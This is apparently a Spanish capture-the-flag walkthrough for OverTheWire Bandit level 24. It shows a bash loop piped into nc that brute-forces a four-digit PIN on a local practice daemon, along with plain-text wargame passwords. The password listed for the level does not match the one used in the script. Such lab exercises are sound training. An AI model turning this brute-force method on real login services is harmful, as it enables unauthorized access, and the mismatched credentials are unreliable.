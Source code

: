 ## Objetivo 

Un demonio está escuchando en el puerto 30002 y le dará la contraseña de bandit25 si se le da la contraseña de bandit24 y un código PIN numérico secreto de 4 dígitos. No hay forma de recuperar el código PIN excepto revisando todas las 10000 combinaciones, lo que se denomina fuerza bruta.
No es necesario crear nuevas conexiones cada vez.

## Datos de acceso al nivel

user bandit24
pass VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
## Solucion

```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar Timeout. Exiting.
   
bandit24@bandit:~$ cd /tmp
bandit24@bandit:/tmp$ mkdir bandit24_xd
bandit24@bandit:/tmp$ cd bandit24_xd
bandit24@bandit:/tmp/bandit24_xd$ nano test.sh
Unable to create directory /home/bandit24/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

/////////////

```bash
#!/bin/bash

for i in {0000..9999}
do
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i
done

```
```

///////////


bandit24@bandit:/tmp/bandit24_xd$ chmod u+x test.sh
bandit24@bandit:/tmp/bandit24_xd$ ./test.sh | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
.........
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.

bandit24@bandit:/tmp/bandit24_xd$ ./test.sh | nc localhost 30002 | grep -v "Wrong"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:/tmp/bandit24_xd$ ^C



```

## Notas adicionales


Un bucle for en bash tiene la siguiente sintaxis:

```
1 for var in 1 2 ... N
2 do
3	#something
4 done
```


Si la variable se repite en un rango específico, podría ser más fácil escribir solo los límites. Por ejemplo, si queremos recorrer del 1 al 10, la sintaxis sería {0..10}. Si además queremos que cada número tenga dos dígitos (00, 01, 02,… 10), podemos agregar el dígito cero al número {00..10}.

## Referencias 


https://www.hostinger.mx/tutoriales/bash-for-loop-guia-ejemplos